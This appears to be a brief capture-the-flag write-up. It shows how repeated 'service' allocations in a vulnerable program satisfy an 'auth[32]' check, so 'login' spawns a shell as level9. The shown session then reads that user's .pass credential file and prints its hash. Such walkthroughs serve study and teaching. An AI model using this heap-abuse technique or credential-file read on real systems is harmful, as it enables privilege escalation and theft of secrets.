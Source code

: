 the program can allocate memory with the command 'auth ' ans 'service'
the instruction ```auth[32] != 0``` check if adress of auth + 32 exist
we can call multiple time service to allocate memory at this space


```
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```